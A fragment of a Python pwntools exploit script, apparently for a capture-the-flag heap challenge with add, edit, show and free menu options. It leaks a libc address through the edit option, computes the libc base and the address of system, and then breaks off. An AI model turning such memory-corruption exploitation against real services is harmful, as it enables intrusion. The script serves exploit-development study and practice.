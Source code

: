 ```python
		if local:
			gdb.attach(p,a)
			if a=='':
				raw_input
		else:
			pass

	ru=lambda x:p.recvuntil(x)
	sl=lambda x:p.sendline(x)
	sd=lambda x:p.send(x)
	sa=lambda a,b:p.sendafter(a,b)
	sla=lambda a,b:p.sendlineafter(a,b)
	ia=lambda :p.interactive()
	def leak_address():
		if(context.arch=='i386'):
			return u32(p.recv(4))
		else :
			return u64(p.recv(6).ljust(8,b'\x00'))

	def cho(num):
		sla('Choice:',str(num))

	def add(idx,tp,val):
		cho(1)
		sla('Index:',str(idx))
		sla('Type:',str(tp))
		sla('Value:',val)

	def edit123(idx,val):
		cho(2)
		sla('Index:',str(idx))
		sl(val)
	def edit4(idx,val):
		cho(2)
		sla('Index:',str(idx))
		for i in val:
			sla('1 for in place: ','1')
			sla('New value: ',str(i))


	def show(idx):
		cho(3)
		sla('Index:',str(idx))


	def free(idx):
		cho(4)
		sla('Index:',str(idx))




	add(0,4,'265')
	cho(2)
	sla('Index:',str(0))
	sla('1 for in place: ','0')
	sla('New value: ','1')
	ru('Old value: ')
	libcbase=int(ru('\n')[:-1],10)|0x7fff00000000
	libcbase -= 0x3ebca0
	print(hex(libcbase))
	
	system=libc.sym['system']+libcbase
```
